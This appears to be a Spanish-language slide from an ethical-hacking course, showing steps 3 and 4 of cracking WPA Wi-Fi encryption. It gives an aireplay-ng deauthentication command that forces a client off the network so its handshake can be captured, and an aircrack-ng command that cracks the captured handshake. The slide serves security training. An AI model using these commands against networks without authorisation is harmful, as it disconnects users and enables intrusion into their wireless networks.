

# Crack al cifrado Wifi
Paso 3: De-autenticar el cliente utilizando aireplay-ng. El cliente intentará autenticar con AP lo que conducirá a capturar a airodump el paquete de autenticación (WPA handshake).
aireplay-ng --deauth 11 -a 02:24:2B:CD:68:EE
Paso 4: Ejecutar el archivo de captura a través de aircrack-ng
aircrack-ng.exe -a 2 -w capture.cap
C|EH  Julio Iglesias Pérez